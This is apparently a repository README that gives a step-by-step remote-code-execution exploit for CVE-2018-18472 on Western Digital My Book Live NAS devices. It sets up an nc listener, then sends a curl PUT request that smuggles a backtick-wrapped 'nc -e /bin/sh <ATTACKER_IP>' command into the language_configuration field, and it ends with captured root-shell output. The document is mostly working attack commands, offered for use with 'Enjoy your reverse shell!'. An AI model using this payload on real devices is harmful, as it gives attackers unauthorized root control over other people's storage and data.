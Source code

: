 # My Book Live reverse shell

This RCE vulnerability is based on **CVE-2018-18472**. Research was done by **WizCase**. Source: <https://iotsecuritynews.com/wizcase-report-vulnerabilities-found-in-wd-my-book-netgear-stora-seagate-home-medion-lifecloud-nas/>

1. Turn on TLSv1.0 support in OpenSSL library: <https://www.maartendekeizer.nl/blog/detail/fix-curl-35-error-1425f102-ssl-routines-ssl_choose_client_version-unsupported-protocol>

2. Start `ncat` listener:

```
nc -lvnp 9999
```
3. Execute REST API calling:

```
curl -k -X PUT -d 'language=en_US`nc -e /bin/sh <ATTACKER_IP> 9999`' https://<VICTIM_IP>/api/1.0/rest/language_configuration
```

4. Enjoy your reverse shell!
```
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from <VICTIM_IP>.
Ncat: Connection from <VICTIM_IP>:51490.
id
uid=0(root) gid=0(root) groups=0(root),33(www-data),1000(share)
uname -a
Linux MyBookLive 2.6.32.11-svn70860 #1 Thu May 17 13:32:51 PDT 2012 ppc GNU/Linux
ls -la /
total 336
drwxr-xr-x  25 root root      4096 Jun 24 04:22 .
drwxr-xr-x  25 root root      4096 Jun 24 04:22 ..
drwxrwxrwx  14 root www-data 65536 Jun 23 21:54 CacheVolume
drwxr-xr-x   6 root root     65536 Jun 14 18:48 DataVolume
drwxr-xr-x   2 root root      4096 May  8  2015 bin
drwxr-xr-x   3 root root      4096 Jun 23 20:44 boot
drwxr-xr-x   2 root root      4096 May  8  2015 debootstrap
drwxr-xr-x  12 root root      2500 Jun 24 04:23 dev
drwxr-xr-x  78 root root      4096 Jun 24 04:24 etc
drwxr-xr-x   3 root root      4096 May  8  2015 home
lrwxrwxrwx   1 root root        24 May  8  2015 led_color -> /usr/local/nas/led_color
drwxr-xr-x  11 root root      4096 May  8  2015 lib
drwx------   2 root root     16384 May  8  2015 lost+found
drwxr-xr-x   2 root root      4096 May  8  2015 media
drwxrwxr-x   8 root share    65536 Jun 23 21:40 nfs
drwxr-xr-x   2 root root      4096 May  8  2015 opt
dr-xr-xr-x 105 root root         0 Jan  1  1970 proc
drwxr-xr-x   5 root root      4096 Jun 23 21:51 root
drwxr-xr-x   2 root root      4096 May  8  2015 sbin
drwxr-xr-x   2 root root      4096 May  8  2015 selinux
drwxrwxr-x   8 root share    65536 Jun 23 21:40 shares
drwxr-xr-x   2 root root      4096 May  8  2015 srv
drwxr-xr-x  12 root root         0 Jan  1  1970 sys
drwxrwxrwt  13 root root      1320 Jun 24 04:50 tmp
drwxr-xr-x  14 root root      4096 May  8  2015 usr
drwxr-xr-x  13 root root      4096 May  8  2015 var

```
